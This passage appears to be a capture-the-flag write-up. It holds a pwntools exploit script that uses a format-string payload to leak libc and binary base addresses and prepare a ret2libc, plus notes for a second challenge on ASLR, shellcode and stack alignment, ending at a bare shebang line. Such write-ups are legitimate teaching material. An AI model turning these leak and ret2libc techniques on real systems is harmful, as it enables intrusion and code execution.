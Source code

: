 ```
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
def create(bytes):
    p.recvuntil(b"refresh): ", drop=True)
    p.sendline(b'c')
    p.recvuntil(b"255): ", drop=True)
    p.sendline(bytes)

def list():
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'l')

def delete():
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'd')

# Buffer starts at 12th argument of %x

payload = b'aaaa' + b'%x '*0x10
create(payload)
list()
p.recvuntil(b"aaaa", drop=True)
leaks = p.recvline()
p.recvline()
log.info(f"leaks @ {leaks}")
# This is also the GOT??
libc_base = leaks[27:35]
libc_base = int(libc_base, 16)
libc_base = libc_base - 0x1D8000
log.info(f"libc base @ {hex(libc_base)}")
# This is actually the GOT
binary_base = leaks[36:44]
binary_base = int(binary_base, 16)
binary_base = binary_base - 0x4000
log.info(f"binary base @ {hex(binary_base)}")

libc_system = libc_base + 0x03d200
libc_binsh = libc_base + 0x17e0cf

p.interactive()

```

bsl
======================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNy1ic2wiLCJpcCI6IjQ5LjE4MS4zNC45MCIsInNlc3Npb24iOiI5ZmFkZjA0Yi02ODRhLTRmMDQtYjE3MC04NGZkOWI3MDMxMGUifQ.juewMO0gK-9qZc5fbRAE-k3sU6J3LYNPA2ehlNhwx-k}
General overview of problems faced
----------------------------------------------
ASLR on but we have leaks for a library function and get_number() binary function.
We can determine the binary base using the given get_number() function address provided.
No win function, but no NX stack, so shellcode a possibility.
We can overwrite ebx but what do we overwrite with.
Getting segfaults with my attempts.
Fgets places a null terminator at the end of the number of bytes to be read. This means that the last byte of the eip will be overwritten with 0x00 if we fill the entire buffer.
We can spray our ret2libc in the buffer in most fav.
Need to make sure to align to 0x10 bytes so add in 9 junk bytes for alignment.
Script/Command used
-------------------------------------
```
#!/usr/bin/env python
```